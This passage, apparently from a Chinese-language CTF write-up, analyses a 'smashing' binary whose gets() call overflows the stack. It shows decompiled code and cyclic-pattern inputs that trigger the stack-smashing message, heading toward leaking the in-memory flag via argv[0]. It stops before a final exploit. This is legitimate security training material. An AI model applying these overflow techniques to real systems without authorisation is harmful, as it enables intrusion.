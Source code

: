 除了`PIE`保护全开，在开启`Canary`的情况下直接执行栈溢出需要爆破`Canary`的值，难以利用。`main`函数伪代码如下：

```cpp
ssize_t init()
{
  int fd; // ST0C_4

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  fd = open("./flag", 0);
  return read(fd, &flag, 0x30uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int fd; // ST1C_4
  char s; // [rsp+20h] [rbp-50h]
  char s1; // [rsp+40h] [rbp-30h]
  unsigned __int64 v7; // [rsp+68h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  init(*(_QWORD *)&argc, argv, envp);
  memset(&s, 0, 0x20uLL);
  memset(&s, 0, 0x20uLL);
  fd = open("/dev/urandom", 0);
  read(fd, &s, 8uLL);
  puts("Passwd:");
  gets(&s1, &s);
  if ( !strcmp(&s1, &s) )
    printf("flag: %s\n", &flag);
  else
    puts("error!");
  return 0;
}
```

程序在开始会读入`flag`到一个变量中，到每次需要输入一个数与随机数比对，正确后才能输出`flag`内容，爆破难度极大。随便输入一下看看有啥提示

```shell
hjc@Chernobyl-Surface:~/stack_learn/smashing$ cyclic 150
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
hjc@Chernobyl-Surface:~/stack_learn/smashing$ ./smashing
Passwd:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
error!
*** stack smashing detected ***: ./smashing terminated
Aborted
```

程序在崩溃时会提示程序终止，程序名称位于`argv[0]`参数中，加大力度试试：

```shell
hjc@Chernobyl-Surface:~/stack_learn/smashing$ cyclic 280
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaac
hjc@Chernobyl-Surface:~/stack_learn/smashing$ ./smashing
Passwd:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaac
error!
*** stack smashing detected ***:  terminated
Aborted
```